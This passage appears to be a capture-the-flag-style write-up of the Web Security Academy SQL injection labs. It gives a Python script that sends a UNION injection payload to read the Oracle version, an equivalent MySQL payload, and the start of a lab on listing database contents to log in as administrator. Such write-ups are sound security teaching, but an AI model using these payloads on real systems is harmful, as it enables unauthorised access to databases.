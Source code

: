 The above shows `col1` is part of the returned data. Thus, the 'first' part of the query has 2 columns, and the 1st one returns text. 

For UNION Injection, the right and left queries must have the same number of columns, and thus I can craft the final payload and script:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
headers = {
	'Cookie':'session=cookie'
}
# category=Clothing%2c+shoes+and+accessories
params = {
	'category':"' UNION SELECT banner,NULL FROM v$version--"
}

url = 'https://0a190067032531e480ea1c4800a30002.web-security-academy.net/filter'
s = requests.Session()

r = s.get(url, headers=headers, proxies=proxies, verify=False, params=params)
if re.search(r"Internal Server Error", r.text):
	print("Query failed")
	sys.exit(1)
else:
	#if re.search(r"col1",r.text):
	#	print("Col1")
	#elif re.search(r"col2",r.text):
	#	print("Col2")
	print(r.text)
```

### MySQL and MSSQL

Same thing as above, just for MySQL.

```sql
' UNION SELECT @@version,NULL -- -
```

## Lab 5 & 6: Listing DB Contents

### Non-Oracle

To solve, login as `administrator` user via UNION injection. Testing reveals there are 2 columns, with first column returning text.

Firstly, I found out that it was PostgreSQL through testing `@@version` and `version()`, with the latter returning a positive result.
